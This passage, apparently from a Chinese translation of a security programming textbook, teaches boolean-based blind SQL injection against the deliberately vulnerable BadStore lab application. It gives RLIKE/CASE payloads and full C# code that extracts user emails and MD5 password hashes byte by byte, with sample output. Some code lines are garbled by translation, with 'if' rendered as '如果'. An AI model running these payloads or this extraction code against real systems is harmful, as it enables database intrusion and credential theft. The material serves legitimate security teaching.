> 用户名：tommy@customer.net 密码哈希：7f43c1e438dc11a93d19616549d4b701

示例 2-38：基于 UNION 的攻击示例输出

如你所见，通过一次请求，我们就能够通过 UNION SQL 注入从 BadStore MySQL 数据库中的 userdb 表提取所有的用户名和密码哈希值。

利用布尔值盲注 SQL 漏洞

**盲注 SQL 注入**（也称为基于布尔值的盲注 SQL 注入）是指攻击者无法直接从数据库获取信息，而是通过提出真假问题间接地从数据库中提取信息，通常是一次提取 1 字节数据。

盲注 SQL 注入的工作原理

盲注 SQL 注入需要比 UNION 利用更多的代码才能有效利用 SQL 注入漏洞，而且它们需要更多的时间才能完成，因为需要发出更多的 HTTP 请求。与类似 UNION 攻击相比，它们在服务器端的噪音更大，且可能在日志中留下更多的证据。

在执行盲注 SQL 注入时，你不会从 web 应用程序获得直接反馈；而是依赖元数据（例如行为变化）来从数据库中获取信息。例如，通过使用 RLIKE MySQL 关键字和正则表达式匹配数据库中的值，如 示例 2-39 所示，我们可以在 BadStore 中引发错误。

> searchquery=fdsa'+RLIKE+0x28+AND+'

示例 2-39：在 BadStore 中引发错误的 RLIKE 盲注 SQL 注入有效载荷

当传递给 BadStore 时，RLIKE 将尝试将十六进制编码的字符串作为正则表达式进行解析，导致错误（见清单 2-40），因为传入的字符串在正则表达式中是一个特殊字符。开括号[ ( ]字符（0x28 的十六进制值）表示表达式组的开始，我们也使用它来匹配用户名和密码哈希值的联合利用。开括号字符必须有一个对应的闭括号[ ) ]字符，否则正则表达式的语法将无效。

> 从正则表达式清单 2-40 中获得错误“括号不匹配”：当传入无效的正则表达式时，RLIKE 产生错误

括号不匹配，因为缺少一个闭括号。现在我们知道，可以通过使用真假 SQL 查询可靠地控制 BadStore 的行为，从而导致其出错。

使用 RLIKE 创建真假响应

我们可以在 MySQL 中使用 CASE 语句（它的行为类似于 C 语言中的 case 语句）来确定性地选择 RLIKE 解析的好或坏的正则表达式。例如，清单 2-41 返回正确的响应。

> searchquery=fdsa'+RLIKE+(SELECT+(CASE+WHEN+(1=1➊)+THEN+0x28+ELSE+0x41+END))+AND+'

清单 2-41：一个 RLIKE 盲注负载，应该返回正确的响应

CASE 语句首先判断 1=1 ➊是否为真。由于这个等式成立，RLIKE 会尝试解析 0x28 作为正则表达式，但因为(不是一个有效的正则表达式，应该会抛出错误。如果我们将 CASE 条件 1=1（其结果为真）改为 1=2，Web 应用程序不再抛出错误。因为 1=2 的结果为假，RLIKE 会返回 0x41（十六进制的大写字母 A）供解析，不会引发解析错误。

通过向 Web 应用程序提出真假问题（这个等于那个吗？），我们可以确定它的行为，然后根据该行为来判断我们的问题的答案是真还是假。

使用 RLIKE 关键字来匹配搜索条件

清单 2-42 中的负载（针对 searchquery 参数）应该返回正确的响应（一个错误），因为 userdb 表中行数的长度大于 1。

> searchquery=fdsa'+RLIKE+(SELECT+(CASE+WHEN+((SELECT+LENGTH(IFNULL(CAST(COUNT(*)
> 
> +AS+CHAR),0x20))+FROM+userdb)=1➊)+THEN+0x41+ELSE+0x28+END))+AND+'

清单 2-42：用于 searchquery 参数的布尔型 SQL 注入负载示例

使用 RLIKE 和 CASE 语句，我们检查 BadStore 的 userdb 表的行数是否等于 1。COUNT(*)语句返回一个整数，即表中的行数。我们可以利用这个数字显著减少完成攻击所需的请求次数。

如果我们修改负载，以确定行数的长度是否等于 2 而不是 1 ➊，服务器应该返回一个包含错误的响应，错误信息为“括号不平衡”。例如，假设 BadStore 在 userdb 表中有 999 个用户。虽然你可能会认为我们需要发送至少 1,000 个请求来确定 COUNT(*)返回的数字是否大于 999，但我们可以比起对整个数字（999）进行暴力破解，更快地破解每一个单独的数字（每个 9）。数字 999 的长度是三，因为 999 是由三个字符组成的。如果，我们不是暴力破解整个数字 999，而是分别暴力破解第一个、第二个和第三个数字，我们将在 30 个请求内暴力破解整个数字 999——每个数字最多 10 个请求。

确定并打印 userdb 表中的行数

为了更清楚地说明这一点，我们编写一个 Main()方法来确定 userdb 表中包含多少行。通过列表 2-43 中的 for 循环，我们确定 userdb 表中行数的长度。

> int countLength = 1;
> 
> for (;;countLength++)
> 
> {
> 
> string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
> 
> getCountLength += " LENGTH(IFNULL(CAST(COUNT(*) AS CHAR),0x20)) FROM";
> 
> getCountLength += " userdb)="+countLength+") THEN 0x28 ELSE 0x41 END))";
> 
> getCountLength += " AND 'LeSo'='LeSo";
> 
> string response = MakeRequest(getCountLength);
> 
> 如果(response.Contains("parentheses not balanced"))
> 
> break;
> 
> }

列表 2-43: 用于检索用户数据库中行数的 for 循环

我们从 countLength 为零开始，然后每次通过循环时，countLength 增加 1，检查请求的响应是否包含正确的字符串“括号不平衡”。如果包含，我们就退出 for 循环，得到正确的 countLength，应该是 23。

然后，我们向服务器请求 userdb 表中包含的行数，如列表 2-44 所示。

> List<byte> countBytes = new List<byte>();
> 
> for (int i = 1; i <= countLength; i++)
> 
> {
> 
> for (int c = 48; c <= 58; c++)
> 
> {
> 
> string getCount = "fdsa' RLIKE (SELECT (CASE WHEN (➊ORD(➋MID((SELECT";
> 
> getCount += " IFNULL(CAST(COUNT(*) AS CHAR), 0x20) FROM userdb)➌,";
> 
> getCount += i➍+ ", 1➎))="+c➏+") THEN 0x28 ELSE 0x41 END)) AND '";
> 
> string response = MakeRequest (getCount);
> 
> 如果(response.➐Contains("parentheses not balanced"))
> 
> {
> 
> countBytes.➑Add((byte)c);
> 
> break;
> 
> }
> 
> }
> 
> }

列表 2-44: 检索 userdb 表中行数的操作

在列表 2-44 中使用的 SQL 负载与之前用于检索计数的 SQL 负载略有不同。我们使用 ORD() ➊和 MID() ➋ SQL 函数。

ORD()函数将给定输入转换为整数，而 MID()函数根据起始索引和长度返回特定的子字符串。通过同时使用这两个函数，我们可以从 SELECT 语句返回的字符串中一次选择一个字符并将其转换为整数。这使我们能够将字符串中字节的整数表示与我们在当前迭代中测试的字符值进行比较。

MID()函数需要三个参数：你要选择子字符串的字符串 ➌；起始索引（是从 1 开始的，而不是 0，如你可能预期的那样） ➍；以及要选择的子字符串的长度 ➎。请注意，MID()的第二个参数 ➍ 由最外层 for 循环的当前迭代决定，我们在该循环中将 i 增加到上一个 for 循环确定的 count 长度。这个参数选择了我们在迭代时要测试的下一个字符。内部 for 循环遍历 ASCII 字符 0 到 9 的整数等价值。由于我们只是想获取数据库中的行数，所以我们只关心数字字符。

在布尔注入攻击中，i ➍ 和 c ➏ 变量都被用在 SQL 负载中。变量 i 作为 MID()函数的第二个参数，决定了我们将测试的数据库值中的字符位置。变量 c 是我们将 ORD()函数的结果与之比较的整数，该函数将 MID()返回的字符转换为整数。这使我们能够遍历数据库中给定值的每个字符，并使用真假问题进行暴力破解。

当负载返回"括号不匹配"错误 ➐ 时，我们知道索引 i 处的字符等于内循环中的整数 c。然后，我们将 c 转换为字节并将其添加到在循环前实例化的 List<byte> ➑ 中。最后，我们跳出内循环，继续外循环，直到所有 for 循环完成后，我们将 List<byte>转换为可打印的字符串。

然后，将该字符串打印到屏幕上，如清单 2-45 所示。

> int count = int.Parse(Encoding.ASCII.➊GetString(countBytes.ToArray()));
> 
> Console.WriteLine("There are "+count+" rows in the userdb table"); 清单 2-45：通过 SQL 注入获取的字符串转换并打印表中的行数

我们使用 GetString()方法 ➊（来自 Encoding.ASCII 类）将 countBytes.ToArray()返回的字节数组转换为可读的字符串。然后将该字符串传递给 int.Parse()，它解析字符串并返回一个整数（如果字符串能够转换为整数）。最后，使用 Console.WriteLine()将字符串打印出来。

MakeRequest() 方法

我们即将准备好执行我们的攻击，只差一件事：我们需要一种方法在 for 循环中发送负载。为此，我们需要编写 MakeRequest() 方法，它接受一个参数：要发送的负载（见 列表 2-46）。

> private static string MakeRequest(string payload)
> 
> {
> 
> string url = ➊"http://192.168.1.78/cgi-bin/badstore.cgi?action=search&searchquery=";
> 
> HttpWebRequest request = (HttpWebRequest)WebRequest.➋Create(url+payload);
> 
> string response = string.Empty;
> 
> using (StreamReader reader = new ➌StreamReader(request.GetResponse().GetResponseStream()))
> 
> response = reader.ReadToEnd();
> 
> return response;
> 
> }

列表 2-46: MakeRequest() 方法发送负载并返回服务器的响应

我们创建了一个基本的 GET HttpWebRequest ➋，使用负载和 URL ➊ 指向 BadStore 实例。然后，通过 StreamReader ➌，我们读取响应并将其返回给调用者。现在我们运行攻击，应该会收到类似列表 2-47 中显示的输出。

> userdb 表中有 23 行，列表 2-47: 确定 userdb 表中的行数

在执行完第一个攻击代码后，我们看到有 23 个用户需要提取用户名和密码哈希。接下来的攻击步骤将提取实际的用户名和密码哈希。

获取值的长度

在我们能够逐字节地从数据库中的列提取任何值之前，我们需要先获取值的长度。列表 2-48 展示了如何完成这一过程。

> private static int GetLength(int row➊, string column➋)
> 
> {
> 
> int countLength = 0;
> 
> for (;; countLength++)
> 
> {
> 
> string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
> 
> getCountLength += " LENGTH(IFNULL(CAST(➌CHAR_LENGTH("+column+") AS";
> 
> getCountLength += " CHAR),0x20)) FROM userdb ORDER BY email ➍LIMIT";
> 
> getCountLength += row+",1)="+countLength+") THEN 0x28 ELSE 0x41 END)) AND";
> 
> getCountLength += " 'YIye'='YIye";
> 
> string response = MakeRequest(getCountLength);
> 
> if (response.Contains("parentheses not balanced"))
> 
> break;
> 
> }

列表 2-48: 获取数据库中某些值的长度

GetLength() 方法接受两个参数：一个是要从中提取值的数据库行 ➊，另一个是值将存储的数据库列 ➋。我们使用 for 循环（见列表 2-49）来获取 userdb 表中行的长度。但与之前的 SQL 负载不同，我们使用 CHAR_LENGTH() ➌ 函数而不是 LENGTH，因为提取的字符串可能是 16 位 Unicode 而非 8 位 ASCII。我们还使用 LIMIT 子句 ➍ 来指定要从完整的用户表中提取特定行的值。在获取数据库中值的长度之后，我们可以像 列表 2-49 中所示，逐字节提取实际的值。

> List<byte> countBytes = ➊new List<byte> ();
> 
> for (int i = 0; i <= countLength; i++)
> 
> {
> 
> for (int c = 48; c <= 58; c++)
> 
> {
> 
> string getLength = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT";
> 
> getLength += " IFNULL(CAST(CHAR_LENGTH(" + column + ") AS CHAR),0x20) FROM";
> 
> getLength += " userdb ORDER BY email LIMIT " + row + ",1)," + i;
> 
> getLength += ",1))="+c+") THEN 0x28 ELSE 0x41 END)) AND 'YIye'='YIye";
> 
> string response = ➋MakeRequest(getLength);
> 
> if (response.➌Contains("parentheses not balanced"))
> 
> {
> 
> countBytes.➍Add((byte)c);
> 
> break;
> 
> }
> 
> }
> 
> }

Listing 2-49: GetLength() 方法中的第二个循环，用于检索值的实际长度

正如你在 Listing 2-49 中看到的，我们创建了一个通用的 List<byte> ➊ 来存储通过负载获取的值，以便将它们转换为整数并返回给调用者。我们遍历计数的长度时，使用 MakeRequest() ➋ 和 SQL 注入负载发送 HTTP 请求来测试值中的字节。如果响应包含“parentheses not balanced”错误 ➌，我们就知道我们的 SQL 负载评估为真。这意味着我们需要将 c 的值（确定匹配 i 的字符）作为字节 ➍ 存储，以便我们可以将 List<byte> 转换为人类可读的字符串。由于我们找到了当前字符，因此不需要再测试给定索引的计数，所以我们跳出循环，继续处理下一个索引。

现在我们需要返回计数并完成方法，如 Listing 2-50 所示。

> if (countBytes.Count > 0)
> 
> return ➊int.Parse(Encoding.ASCII.➋GetString(countBytes.ToArray()));
> 
> else
> 
> return 0;
> 
> }

Listing 2-50: GetLength() 方法中的最终行，将长度的值转换为整数并返回

一旦我们获得了计数的字节，我们就可以使用 GetString() ➋ 将收集到的字节转换为人类可读的字符串。这个字符串会传递给 int.Parse() ➊ 并返回给调用者，以便我们开始从数据库中获取实际的值。

编写 GetValue() 方法以检索给定的值

我们通过 GetValue() 方法完成了此漏洞利用，如 Listing 2-51 所示。

> private static string GetValue(int row➊, string column➋, int length➌)
> 
> {
> 
> List<byte> valBytes = ➍new List<byte>();
> 
> for (int i = 0; i <= length; i++)
> 
> {
> 
> ➎for(int c = 32; c <= 126; c++)
> 
> {
> 
> string getChar = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT";
> 
> getChar += " IFNULL(CAST("+column+" AS CHAR),0x20) FROM userdb ORDER BY";
> 
> getChar += " email LIMIT "+row+",1),"+i+",1))="+c+") THEN 0x28 ELSE 0x41";
> 
> getChar += " END)) AND 'YIye'='YIye";
> 
> string response = MakeRequest(getChar);
> 
> if (response.Contains(➏"parentheses not balanced"))
> 
> {
> 
> valBytes.Add((byte)c);
> 
> break;
> 
> }
> 
> }
> 
> }
> 
> return Encoding.ASCII.➐GetString(valBytes.ToArray());
> 
> }

Listing 2-51: GetValue() 方法，它将在给定行中检索给定列的值

GetValue() 方法需要三个参数：我们从中提取数据的数据库行 ➊，值所在的数据库列 ➋，以及从数据库中提取值的长度 ➌。创建一个新的 List<byte> ➍ 来存储收集到的字节值。

在最内层的 for 循环 ➎ 中，我们从 32 迭代到 126，因为 32 是对应可打印 ASCII 字符的最小整数，126 是最大值。之前在检索计数时，我们只迭代了从 48 到 58，因为我们只关心数字的 ASCII 字符。

在我们迭代这些值时，我们发送一个有效载荷，将数据库中当前值的索引与内层 for 循环当前值进行比较。当响应返回时，我们寻找错误信息“括号不平衡” ➏，如果找到，就将当前内层循环的值转换为字节并将其存储在字节列表中。该方法的最后一行使用 GetString() ➐ 将该列表转换为字符串，并将新字符串返回给调用者。

调用方法并打印值

现在剩下的就是在我们的 Main() 方法中调用新的 GetLength() 和 GetValue() 方法，并打印从数据库中提取的值。如 Listing 2-52 所示，我们在 Main() 方法的末尾添加一个 for 循环，调用 GetLength() 和 GetValue() 方法，这样我们就能从数据库中提取出电子邮件地址和密码哈希值。

> for (int row = 0; row < count; row++)
> 
> {
> 
> foreach (string column in new string[] {"email", "passwd"})
> 
> {
> 
> Console.Write("获取查询值的长度... ");
> 
> int valLength = ➊GetLength(row, column);
> 
> Console.WriteLine(valLength);
> 
> Console.Write("获取值... ");
> 
> string value = ➋GetValue(row, column, valLength);
> 
> Console.WriteLine(value);
> 
> }
> 
> }

Listing 2-52：添加到 Main() 方法中的 for 循环，调用 GetLength() 和 GetValue() 方法

对于 userdb 表中的每一行，我们首先获取电子邮件字段的长度 ➊ 和值 ➋，然后获取密码字段的值（用户密码的 MD5 哈希）。接下来，我们打印字段的长度及其值，结果如 Listing 2-53 所示。

> userdb 表中有 23 行数据
> 
> 获取查询值的长度... 13
> 
> 获取值... AAA_Test_User
> 
> 获取查询值的长度... 32
> 
> 获取值... 098F6BCD4621D373CADE4E832627B4F6
> 
> 获取查询值的长度... 5
> 
> 获取值... admin
> 
> 获取查询值的长度... 32
> 
> 获取值... 5EBE2294ECD0E0F08EAB7690D2A6EE69
> 
> --snip--
> 
> 获取查询值的长度... 18
> 
> 获取值... tommy@customer.net
> 
> 获取查询值的长度... 32
> 
> 获取值... 7f43c1e438dc11a93d19616549d4b701

Listing 2-53：我们的攻击结果

在枚举数据库中用户数量后，我们遍历每个用户，从数据库中提取用户名和密码哈希。这个过程比我们上面执行的 UNION 操作要慢得多，但 UNION 注入并不总是可用的。理解布尔型攻击在 SQL 注入利用中的工作原理，对于有效利用许多 SQL 注入漏洞至关重要。

结论

本章介绍了如何通过模糊测试和利用 XSS 和 SQL 注入漏洞。正如你所见，BadStore 存在许多 SQL 注入、XSS 以及其他漏洞，这些漏洞的利用方式各有不同。在本章中，我们实现了一个小型的 GET 请求模糊测试应用程序，用于搜索查询字符串参数中的 XSS 或可能表明 SQL 注入漏洞存在的错误。通过使用功能强大且灵活的 HttpWebRequest 类来发起和获取 HTTP 请求与响应，我们能够确定，在 BadStore 中搜索商品时，searchquery 参数既容易受到 XSS 攻击，也容易受到 SQL 注入攻击。

一旦我们编写了一个简单的 GET 请求模糊测试工具，我们就使用 Burp Suite HTTP 代理和 Firefox 捕获了 BadStore 的 HTTP POST 请求，以编写一个用于 POST 请求的简单模糊测试应用程序。通过使用与之前 GET 请求模糊测试工具中相同的类，并加入一些新方法，我们能够找到更多可被利用的 SQL 注入漏洞。

接下来，我们转向了更复杂的请求，比如带有 JSON 的 HTTP 请求。通过使用一个易受攻击的 JSON Web 应用程序，我们利用 Burp Suite 捕获了一个用于创建新用户的请求。为了高效地对这种类型的 HTTP 请求进行模糊测试，我们引入了 Json.NET 库，它简化了 JSON 数据的解析和消费过程。

最后，在你掌握了模糊测试如何发现 Web 应用程序中潜在漏洞的原理之后，你学会了如何利用这些漏洞。再次使用 BadStore，我们编写了一个基于 UNION 的 SQL 注入利用代码，通过一个 HTTP 请求就能从 BadStore 数据库中提取出用户名和密码哈希。为了高效地从服务器返回的 HTML 中提取数据，我们使用了正则表达式类 Regex、Match 和 MatchCollection。

一旦简单的 UNION 利用完成，我们就编写了一个基于布尔型盲注的 SQL 注入攻击，作用于同一个 HTTP 请求。通过使用 HttpWebRequest 类，我们根据传递给 Web 应用程序的 SQL 注入负载，确定哪些 HTTP 响应是真，哪些是假的。当我们了解 Web 应用程序对真假问题的响应行为后，我们开始向数据库询问真假问题，以便逐字节地从数据库中获取信息。基于布尔型盲注的利用比 UNION 利用更加复杂，需要更多的时间和 HTTP 请求才能完成，但它在无法使用 UNION 时尤其有效。
